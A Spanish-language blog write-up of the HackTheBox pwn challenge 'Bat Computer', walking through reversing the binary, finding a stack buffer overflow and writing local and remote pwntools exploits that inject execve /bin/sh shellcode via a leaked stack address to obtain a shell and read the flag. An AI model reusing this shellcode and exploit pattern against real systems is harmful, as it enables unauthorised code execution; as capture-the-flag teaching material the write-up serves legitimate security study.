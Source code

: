 ```yaml
---
title: Bat Computer - Pwn Challenge (HTB) ❤
author: sha16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


Hola a tod@s! Hoy les traigo un nuevo post de binary exploitation. 

En esta ocasión, les traigo la resolución de un BoF en un binario de 64-bit. El desafío como tal, consiste en un programa que te da dos opciones a elegir:

1. **Track Joker:** Sólo imprime un texto con una dirección de memoria (`0x7fffffffe1a4`) que hasta ahora desconocemos.
2. **Chase Joker:** Esta opción le solicita una contraseña al usuario la cual le brinda supuesto acceso al “BatMobile”.

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled.png)

Posterior a esto procedemos a reversear el código con Ghidra donde identificamos la contraseña que el programa nos solicita.

Es importante mencionar que el binario se encuentra *[stripped](https://en.wikipedia.org/wiki/Strip_(Unix))*, por lo cual, en primera instancia es algo difícil de identificar los nombres de las variables y funciones:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%201.png)

Al momento de probar la contraseña, el programa la acepta y le solicita al usuario “comandos de navegación”, los cuales al ser ingresados no tienen mucha relevancia:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%202.png)

Luego de aplicar reversing sobre el código, ahora se logra entender más la sintaxis y el flujo principal del programa:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%203.png)

En este punto identificamos un *buffer overflow* en la variable `nav_command`, que corresponde a los “comandos de navegación”, debido a que esta tiene asignado `76 bytes` de memoria, sin embargo, al momento de leer el contenido de dicha variable con la función `read` esta acepta `137 bytes`. Por lo cual queda toda una región de memoria disponible para sobrescribir registros.

```c
int main(void) {
		...
		undefined nav_command [76]
		...
		read(0,nav_command,1337);
		...
}
```

Para validar esto, realizamos una prueba con la herramienta `gdb-gef`. 

1. Primeramente, creamos una cadena de `137 bytes`. 
2. Luego arrancamos el programa y seleccionamos la opción `2`, donde primero colocamos la contraseña del usuario. 
3. Posterior a esto, el programa solicita los “comandos de navegación” donde ingresamos la cadena de `137 bytes` con el objetivo de sobrescribir la memoria que tiene asignada la variable `nav_command`, lo cual corresponde a `76 bytes`.
4. Hecho esto, el programa vuelve a solicitarle una opción al usuario, lo cual sólo ocurre porque este se encuentra en un bucle infinito. Para forzar al programa a retornar debemos colocar un número que no corresponda a `1`, o `2`. De esta manera, como la dirección de retorno ha sido sobrescrita, el programa arrojará un error `Segmentation fault` y nos permitirá validar la existencia del BoF. 

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%204.png)

Al listar el offset, con la instrucción `pattern offset`, se identifica que se deben introducir `84 bytes` para sobrescribir la dirección de retorno:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%205.png)

Antes de crear el exploit, es importante checar las protecciones que posee el binario. 

Como se muestra en imagen, el programa no cuenta con `NX (no-execute)`, ni `Stack Canaries`, lo cual significa que a la hora de explotar el *buffer overflow* podemos ejecutar código de manera arbitraria en la pila:  

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%206.png)

De esta forma, empezamos creando el exploit de la siguiente manera:

```python
#!/usr/bin/python3

from pwn import process, p64

if __name__ == '__main__':
    # Starting process
    elf = process('./batcomputer')

    # Extracting leaked memory address from "nav_command" variable
    elf.recvuntil(b'> ')
    elf.sendline(b'1')
    result_option1 = elf.recvline().decode()
    nav_command_addr = p64(int(result_option1.strip('It was very hard, but Alfred managed to locate him: '),16)) # Formating to x64

    # msfvenom -p linux/x64/exec -f python -v shellcode -> shellcode
    shellcode =  b""
    shellcode += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99"
    shellcode += b"\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

    offset = 84 # to overwrite return address
    padding = b"\x41" * (offset - len(shellcode))

    # Final payload    
    payload = shellcode + padding + nav_command_addr

    # Sending password to get the input to exploit
    elf.recvuntil(b'> ')
    elf.sendline(b'2')
    elf.recvuntil(b'password: ')
    elf.sendline(b'b4tp@$$w0rd!')

    # Sending payload to exploit the BoF
    elf.recvuntil(b'commands: ')
    elf.sendline(payload)

    # Generating call to the overwrited return address
    elf.recvuntil(b'> ')
    elf.sendline(b'3')

    # Getting an interactive shell
    elf.interactive()
```

Al ejecutar el exploit vemos que este nos ha entregado una shell completamente interactiva, lo cual significa que nuestro shellcode se ejecutó de manera exitosa al explotar el *buffer overflow*:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%207.png)

Habiendo hecho esto, podemos adaptar el exploit para explotar el desafío de HackTheBox de manera remota:

```python
#!/usr/bin/python3

from argparse import ArgumentParser
from pwn import remote, p64

if __name__ == '__main__':
    parser = ArgumentParser()
    parser.add_argument('--host', type=str, required=True, help='Remote host (IP/Domain)')
    parser.add_argument('--port', type=int, required=True, help='Remote port')
    args = parser.parse_args()

    # Starting connection
    connection = remote(args.host, args.port)

    # Extracting leaked memory address from "nav_command" variable
    connection.recvuntil(b'> ')
    connection.sendline(b'1')
    result_option1 = connection.recvline().decode()
    nav_command_addr = p64(int(result_option1.strip('It was very hard, but Alfred managed to locate him: '),16)) # Formating to x64

    # msfvenom -p linux/x64/exec -f python -v shellcode
    shellcode =  b""
    shellcode += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99"
    shellcode += b"\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

    offset = 84 # to overwrite return address
    padding = b"\x41" * (offset - len(shellcode))

    # Final payload    
    payload = shellcode + padding + nav_command_addr

    # Sending password to get the input to exploit
    connection.recvuntil(b'> ')
    connection.sendline(b'2')
    connection.recvuntil(b'password: ')
    connection.sendline(b'b4tp@$$w0rd!')

    # Sending payload to exploit the BoF
    connection.recvuntil(b'commands: ')
    connection.sendline(payload)

    # Generating calling to the overwrited return address
    connection.recvuntil(b'> ')
    connection.sendline(b'3')

    # Getting an interactive shell
    connection.interactive()
```

Una vez ejecutado, logramos obtener una terminal interactiva en el servidor, donde podemos listar el contenido del archivo `flag.txt`:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%208.png)
